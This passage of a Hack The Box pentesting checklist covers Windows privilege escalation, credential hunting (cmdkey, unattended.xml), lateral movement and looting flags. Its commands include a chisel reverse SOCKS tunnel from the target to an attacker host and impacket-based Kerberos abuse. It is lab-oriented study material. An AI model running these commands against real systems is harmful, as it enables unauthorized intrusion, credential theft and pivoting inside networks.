 1. **Token privileges**: `whoami /priv`
   * `SeImpersonatePrivilege` → JuicyPotato/PrintSpoofer (lab)
2.  **Unquoted service path / weak service perms**:

    ```cmd
    wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\"
    sc qc <svc> & icacls "C:\Program Files\<path>"
    ```
3. **AlwaysInstallElevated** (MSI as SYSTEM)
4. **Scheduled tasks** writable?
5. **Registry autoruns** writable Run keys
6. **Hotfixes / vulns**: PrintNightmare (old), MS16-032, outdated drivers
7. **Credential material**:
   * Saved creds: `cmdkey /list`
   * Browser creds, config files, unattended.xml, `C:\ProgramData\` app configs

> Tip: On Insane, expect chaining (e.g., AD abuse → Delegation/Constrained Delegation, Certifried/ESC1-ESC8, Shadow Credentials, RBCD).

***

### 6) Lateral Movement / Pivoting (when multiple hosts or AD)

* **SSH**/WinRM with new creds.
*   **Port-forward**:

    ```bash
    ssh -L 8080:127.0.0.1:8080 user@$IP
    chisel server -p 8000 --reverse  # attacker
    chisel client attacker:8000 R:1080:socks    # target→attacker SOCKS
    proxychains nmap -sT -Pn 127.0.0.1 -p 80,443
    ```
* **Pass-the-hash / tickets** (Windows labs):
  * Kerberoast cracked → `evil-winrm`/`psexec.py`
  * RBCD / Shadow creds → `impacket-addComputer`, `impacket-rbcd`.

***

### 7) Looting & Exfil (HTB flags + supporting evidence)

* User/root/Admin/Desktop
* Key evidence: creds, tickets, proof of vuln exploitation (screens, command logs)
* Keep a `/loot/README.md` with:
  * paths, timestamps, hashes, commands

***

### 8) Cleanup (good practice)

* Remove uploaded files, users, tasks, service edits.
* Reset modified configs (if box expects persistence for realism, follow write-up norms).
* Keep only your **notes** locally.
